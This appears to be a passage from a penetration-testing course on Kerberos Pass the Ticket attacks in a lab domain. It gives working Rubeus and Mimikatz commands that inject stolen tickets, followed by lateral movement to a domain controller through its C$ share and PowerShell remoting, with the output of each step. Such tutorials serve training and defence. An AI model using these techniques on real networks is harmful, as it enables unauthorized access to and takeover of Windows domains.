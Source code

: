### Pass the Ticket (PtT)

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

**Rubeus Pass the Ticket**

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

**Rubeus Pass the Ticket by importing .kirbi**

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

**Rubeus Pass the Ticket - Base64 Format**

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

**Mimikatz - Pass the Ticket**

```cmd-session
C:\tools> mimikatz.exe 
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
mimikatz # exit
Bye!
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

### Pass The Ticket with PowerShell Remoting (Windows)

**Mimikatz - Pass the Ticket for Lateral Movement.**

```
C:\tools> mimikatz.exe 
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
